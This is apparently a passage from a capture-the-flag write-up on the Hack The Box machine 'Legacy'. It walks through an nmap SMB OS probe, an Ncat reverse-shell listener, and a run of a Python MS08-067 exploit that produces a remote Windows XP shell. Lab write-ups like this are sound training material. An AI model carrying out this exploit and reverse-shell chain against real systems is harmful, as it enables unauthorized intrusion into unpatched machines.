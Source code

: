 ```bash
Also: nmap has a good OS discovery script that pairs well with this exploit:
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1
```

Of note are the several `os #` options; it looks like the exact exploitation is language-dependent.  Legacy is an English box, so the most likely exploits should be 6 or 7.

First, we need to set up an Ncat listener (I use `rlwrap` for [fancy features](https://twitter.com/pix/status/1198688097665503232)).  Remember to set the port to the one you specified for your shellcode.

```bash
# rlwrap ncat -nvlp 4433
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
```

Next, we execute the python exploit with the target IP, OS #, and port.  I will be attempting 6 first.

#### Executing the exploit to get a reverse shell

```bash
/ms08_067# python ./ms08_067_2018.py 10.10.10.4 6 445#######################################################################
#   MS08-067 Exploit
[SNIP]

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish

```

Back in the listener:

```shell
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1028.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

Shell on first try!

```shell
C:\WINDOWS\system32>whoami & hostname
whoami & hostname
'whoami' is not recognized as an internal or external command,
operable program or batch file.
legacy
```
